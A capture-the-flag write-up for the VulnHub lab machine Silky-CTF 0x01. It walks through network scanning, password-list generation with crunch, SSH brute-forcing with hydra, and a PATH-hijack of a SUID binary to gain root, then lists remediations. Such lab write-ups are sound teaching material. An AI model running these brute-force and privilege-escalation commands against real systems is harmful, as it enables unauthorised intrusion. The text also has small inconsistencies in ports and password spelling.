





# Silky-CTF: 0x01 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.106 (host-only) |
| **Difficulty** | Easy–Intermediate |
| **OS** | Linux |
| **Root Flag** | flag.txt (value in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/silky-ctf-0x01,283/) |

## Attack Summary

`nmap` → `robots.txt` → `notes.txt` hint + JS source (`s1lky`) → `crunch` wordlist → `hydra` SSH brute (silky:s1lky#5) → SUID `/usr/bin/sky` calls `whoami` without absolute path → PATH hijack → root

## Methodology

1. Network discovery
2. Port scan and web enumeration
3. Password reconstruction from hints
4. SSH brute-force with generated wordlist
5. SUID binary PATH hijacking for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
```

Target found at **192.168.1.106**.

---

## Step 2: Port Scan

```bash
nmap -A 192.168.1.106
```

Relevant ports:
- **22/tcp** — SSH OpenSSH
- **8080/tcp** — HTTP proxy



---

## Step 3: Web Enumeration

Browsing port 80 returns nothing useful. Check `robots.txt`:

```
http://192.168.1.106/robots.txt
```

→ Points to `/notes.txt`, which contains a German message hinting that the last two characters of the password are unknown.

View page source — `script.js` contains the string **`s1lKy`** (the password base).



---

## Step 4: Wordlist Generation

The base is `s1lky` (7 chars total, last 2 unknown). Use crunch to generate candidates:

```bash
crunch 7 7 -t s1lky^% >> pass.txt
```

`^` = special character, `%` = digit.

---

## Step 5: SSH Brute Force

```bash
hydra -l silky -P pass.txt 192.168.1.106 ssh
```

Credentials found: **silky : s1lky#5**



```bash
ssh silky@192.168.1.106
```

---

## Step 6: SUID Enumeration

```bash
find / -perm -u=s -type f 2>/dev/null
```

Found: `/usr/bin/sky` (SUID binary owned by root)

```bash
strings /usr/bin/sky
```

The binary prints German text and calls `whoami` **without an absolute path**.



---

## Step 7: PATH Hijacking (Privilege Escalation)

```bash
cd /tmp
echo '/bin/sh' > whoami
chmod 777 whoami
export PATH=/tmp:$PATH
/usr/bin/sky
```

Shell spawns as root because `/tmp/whoami` is executed with SUID context before `/usr/bin/whoami`.

```bash
id
# uid=0(root) gid=0(root)
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **Secrets in JavaScript source** — never embed credentials or password fragments in client-side scripts
2. **Relative path in SUID binaries** — SUID binaries must use absolute paths; relative calls are exploitable via `$PATH` manipulation
3. **robots.txt** — often reveals interesting paths; always check during web recon

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Password fragment in JS source | Remove; generate credentials server-side only |
| SUID binary calls `whoami` without absolute path | Rewrite binary to use `/usr/bin/whoami`; remove SUID bit if not needed |
| Predictable password pattern | Enforce strong random passwords; disable SSH password auth |
